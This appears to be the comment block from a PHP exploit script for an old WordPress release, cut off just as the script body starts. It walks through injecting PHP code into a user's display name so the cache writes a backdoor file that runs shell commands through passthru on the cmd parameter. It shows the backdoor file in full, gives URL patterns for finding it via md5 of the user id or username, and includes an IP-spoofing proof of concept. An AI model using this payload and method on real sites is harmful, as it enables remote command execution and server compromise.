        but...what happens if you inject a carriage return ( chr(13)...), some php code and some
       escape chars when you update your profile (ex. in "displayname" argument)?

       Look at this file now:

       <?php
       //O:8:"stdClass":24:{s:2:"ID";s:3:"106";s:10:"user_login";s:6:"suntzu";s:9:"user_pass";s:32:"a2b0f31cd94e749b58307775462e2e4b";s:13:"user_nicename";s:6:"suntzu";s:10:"user_email";s:17:"suntzu@suntzu.org";s:8:"user_url";s:7:"http://";s:15:"user_registered";s:19:"2006-05-24 23:00:42";s:19:"user_activation_key";s:0:"";s:11:"user_status";s:1:"0";s:12:"display_name";s:185:"suntzu
       error_reporting(0);set_time_limit(0);if (get_magic_quotes_gpc()){$_REQUEST[cmd]=stripslashes($_REQUEST[cmd]);}echo 56789;passthru($_REQUEST[cmd]);echo 56789;//suntzuuuuuuuuuuuuuu";s:10:"first_name";s:6:"suntzu";s:9:"last_name";s:6:"suntzu";s:8:"nickname";s:6:"suntzu";s:11:"description";s:6:"whoami";s:6:"jabber";s:0:"";s:3:"aim";s:0:"";s:3:"yim";s:0:"";s:15:"wp_capabilities";a:1:{s:10:"subscriber";b:1;}s:13:"wp_user_level";s:1:"0";s:10:"user_level";s:1:"0";s:12:"rich_editing";s:4:"true";s:14:"user_firstname";s:6:"suntzu";s:13:"user_lastname";s:6:"suntzu";s:16:"user_description";s:6:"whoami";}
       ?>

       you have a backdoor on target server...

       Now you have to search a way to guess filenames 'cause we have an
       index.php to trivially protect folders, but... guess what?

       give a look at wp-includes/cache.php at line 355:

       ...
       $cache_file = $group_dir.md5($id.DB_PASSWORD).'.php';
       ...

       $group_dir is the folder where files are stored
       DB_PASSWORD costant could be empty, if so...
       you have only to calculate the md5 hash of your user id, then:

       http://[target]/[path]/wp-content/cache/users/[md5(user_id)].php?cmd=ls%20-la

       the same with userlogins/ folder, this time:

       http://[target]/[path]/wp-content/cache/userlogins/[md5(username)].php?cmd=ls%20-la

       otherwise you can check if DB_PASSWORD is in a dictionary through the -D option,
       this tool calculate the hash to do something like this:

       http://[target]/[path]/wp-content/cache/users/[md5([user_id][db_pass])].php?cmd=ls%20-la
       http://[target]/[path]/wp-content/cache/userloginss/[md5([username][db_pass])].php?cmd=ls%20-la

      ii) an ip-spoofing issue in vars.php:

      ...
      // On OS X Server, $_SERVER['REMOTE_ADDR'] is the server's address. Workaround this
      // by using $_SERVER['HTTP_PC_REMOTE_ADDR'], which *is* the remote address.
      if ( isset($_SERVER['HTTP_PC_REMOTE_ADDR']) )
        $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_PC_REMOTE_ADDR'];
      ...

      poc:
      you can set an http header like this when you register:

      PC_REMOTE_ADDR: 1.1.1.1
                                              */
    error_reporting(0);
    ini_set("max_execution_time",0);
    ini_set("default_socket_timeout",5);
